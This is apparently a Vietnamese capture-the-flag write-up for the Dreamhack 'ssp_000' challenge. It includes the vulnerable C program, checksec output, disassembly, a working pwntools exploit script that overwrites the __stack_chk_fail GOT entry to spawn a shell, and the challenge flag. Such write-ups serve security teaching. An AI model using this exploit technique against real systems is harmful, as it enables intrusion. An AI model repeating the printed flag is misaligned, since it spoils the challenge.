

**1. Tìm lỗi**

Ta có file source như sau:

```
#include <stdio.h>
#include <stdlib.h>
#include <signal.h>
#include <unistd.h>


void alarm_handler() {
    puts("TIME OUT");
    exit(-1);
}


void initialize() {
    setvbuf(stdin, NULL, _IONBF, 0);
    setvbuf(stdout, NULL, _IONBF, 0);

    signal(SIGALRM, alarm_handler);
    alarm(30);
}

void get_shell() {
    system("/bin/sh");
}

int main(int argc, char *argv[]) {
    long addr;
    long value;
    char buf[0x40] = {};

    initialize();


    read(0, buf, 0x80);

    printf("Addr : ");
    scanf("%ld", &addr);
    printf("Value : ");
    scanf("%ld", &value);

    *(long *)addr = value;

    return 0;
}

```

- Chương trình cho nhập vào biến `buf` với tối đa 0x80 byte. Nhưng biến `buf` chỉ được khai báo 0x40 byte -> Có lỗi `bof`
- Sau đó cho nhập vào biến `addr` và `value` dạng số. Rồi gán con trỏ của biến `addr` bằng giá trị của `value`

**2. Ý tưởng**

Dùng lệnh `checksec` kiểm tra:

```
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

Ở đây có `canary` nên ko chèn hàm `get_shell` sau `ret` được nhưng nếu làm sai `canary` thì chương trình sẽ chạy đến `__stack_chk_fail` và ta gán địa chỉ này cho biến `addr` và địa chỉ hàm `get_shell` cho biến `value` thì mọi thứ được giải quyết.

**3. Khai thác**

```
   0x0000000000400937 <+60>:    lea    rax,[rbp-0x50]
   0x000000000040093b <+64>:    mov    edx,0x80
   0x0000000000400940 <+69>:    mov    rsi,rax
   0x0000000000400943 <+72>:    mov    edi,0x0
   0x0000000000400948 <+77>:    call   0x400710 <read@plt>
```

Ta thấy biến `buf` cách rbp 0x50 byte nên ghi luôn 0x50 byte rác vào buf kiểu gì cũng ghi đè luôn giá trị của `canary`.

Ta có script như sau:

```
from pwn import *

exe = ELF('ssp_000', checksec=False)
#r = process(exe.path)
r = remote('host3.dreamhack.games', 15638)

payload = b'a'*0x50
r.send(payload)

payload = str(exe.got['__stack_chk_fail'])
r.sendlineafter(b'Addr : ', payload)

payload = str(exe.sym['get_shell'])
r.sendlineafter(b'Value : ', payload)

r.interactive()
```

**4. Lấy flag**



`Flag: DH{e4d253b82911565ad8dd9625fb491ab0}`